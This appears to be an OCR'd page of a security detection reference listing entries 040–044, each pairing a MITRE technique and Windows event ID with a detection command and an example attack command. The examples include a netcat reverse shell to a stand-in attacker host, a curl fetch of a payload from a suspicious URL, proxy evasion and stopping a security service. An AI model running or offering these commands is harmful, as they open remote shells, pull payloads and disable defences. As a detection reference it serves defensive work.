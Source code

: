 ### Proxy Evasion Detection:**

ID:** 040
MITRE Tactic & Techniques:** Defense Evasion | Proxy/Protocol Evasion [T1090.003]
**Event ID & Code:** 5157 | FIREWALL_BLOCK
**Status Code:** N/A
**Sysmon Rule ID:** 140
Commands and Code:** `Get-NetFirewallRule -Direction Outbound | Where-Object { $_.Enabled -eq True }`
Description:** Unauthorized attempt to bypass proxy restrictions detected.
Example Offensive Codes and Commands:** `curl -x http://evil-proxy:8080 http://target-website.com`

### **Suspicious URL Request:**

ID:** 041
MITRE Tactic & Techniques:** Command and Control | Web Service [T1102]
Event ID & Code:** 5157 | FIREWALL_BLOCK
Status Code:** N/A
Sysmon Rule ID:** 141
Commands and Code:** `grep "suspicious-url" /var/log/proxy.log`
**Description:** Firewall or proxy log showing a request to a suspicious URL.
Example Offensive Codes and Commands:** `curl http://suspicious-url.com/malicious-payload`

### **Unusual Protocol Usage:**

ID:** 042
MITRE Tactic & Techniques:** Command and Control | Non-Standard Port [T1571]
Event ID & Code:** 5157 | FIREWALL_BLOCK
Status Code:** N/A
Sysmon Rule ID:** 142
Commands and Code:** `netsh advfirewall firewall add rule name="Block Non-Standard Port" dir=out remoteport=1337 action=block`
Description:** Firewall blocked traffic on a non-standard port indicating unusual protocol usage.
Example Offensive Codes and Commands:** `nc -e cmd.exe attacker-ip 1337`



### **Code Obfuscation:**

**ID:** 043
MITRE Tactic & Techniques:** Defense Evasion | Obfuscated Files or Information [T1027]
**Event ID & Code:** 4104 | SCRIPT_BLOCK_LOGGING
Status Code:** N/A
Sysmon Rule ID:** 143
Commands and Code:** `powershell -encodedcommand <Base64EncodedCommand>`
Description:** Executing obfuscated PowerShell commands.
**Example Offensive Codes and Commands:** `powershell -encodedcommand U3RhcnQtUHJvY2Vzcw==` (Base64 for `Start-Process`)

### **Disabling Security Tools:**

**ID:** 044
MITRE Tactic & Techniques:** Defense Evasion | Indicator Blocking [T1054]
Event ID & Code:** 7045 | SERVICE_INSTALLED
Status Code:** N/A
Sysmon Rule ID:** 144
Commands and Code:** `sc config "SecurityService" start= disabled`
Description:** Disabling security services to evade detection.
Example Offensive Codes and Commands:** `sc stop "SecurityService"`
